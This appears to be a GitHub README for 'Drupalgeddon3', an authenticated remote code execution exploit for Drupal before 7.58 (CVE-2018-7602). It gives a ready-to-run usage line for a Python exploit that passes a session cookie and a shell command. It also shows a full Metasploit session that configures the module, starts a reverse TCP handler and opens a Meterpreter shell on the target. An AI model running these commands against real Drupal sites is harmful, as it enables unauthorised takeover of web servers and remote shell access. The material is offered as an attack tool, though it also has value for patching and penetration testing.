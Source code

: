 # Drupal < 7.58 - 'Drupalgeddon3' Authenticated Remote Code Execution (Metasploit)
Author:
- [SixP4ck3r](https://twitter.com/sixp4ck3r)

Notes:
- CVE-2018-7602 / SA-CORE-2018-004
- A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x.
This potentially allows attackers to exploit multiple attack vectors on a Drupal site
Which could result in the site being compromised.
This vulnerability is related to Drupal core - Highly critical - Remote Code Execution

### Example
`python drupalgeddon3.py http://target/drupal/ 'SESS60c14852e77ed5de0e0f5e31d2b5f775=htbNioUD1Xt06yhexZh_FhL-h0k_BHWMVhvS6D7_DO0' 6 'uname -a'`

<img src='https://i.imgur.com/9qRHfZ7.png'/>


### Output Metasploit
```bash
six@ub:/opt/metasploit-framework$ ./msfconsole 
[-] ***rting the Metasploit Framework console...|
[-] * WARNING: No database support: No database YAML file
[-] ***
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v5.0.0-dev-8164379                   ]
+ -- --=[ 1758 exploits - 1006 auxiliary - 306 post       ]
+ -- --=[ 536 payloads - 41 encoders - 10 nops            ]
+ -- --=[ ** This is Metasploit 5 development branch **   ]

msf5 > use unix/webapp/drupal_drupalgeddon3
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set RHOST 192.168.1.200
RHOST => 192.168.1.200
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set DRUPAL_SESSION SESSad4467153480b84038526cd43a9ce852=AYyCoZ07NvaDObWxYYEfAOJKETi2atRdEU0B6yEBiRI
DRUPAL_SESSION => SESSad4467153480b84038526cd43a9ce852=AYyCoZ07NvaDObWxYYEfAOJKETi2atRdEU0B6yEBiRI
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set DRUPAL_NODE 3
DRUPAL_NODE => 3
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set LHOST 192.168.1.200
LHOST => 192.168.1.200
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > exploit

[*] Started reverse TCP handler on 192.168.1.200:4444 
[*] Token Form -> u73s2UzA1B056tdlItiAfpeolb5OVwLGEF5EAFH0bJY
[*] Token Form_build_id -> form-FtN_yMsgJI9GlviMbemIkYxgJ97xsUZ7Lg2hOtW1IlI
[*] Sending stage (37775 bytes) to 192.168.1.200
[*] Meterpreter session 1 opened (192.168.1.200:4444 -> 192.168.1.200:60156) at 2018-04-29 15:04:33 -0400

meterpreter > 
```
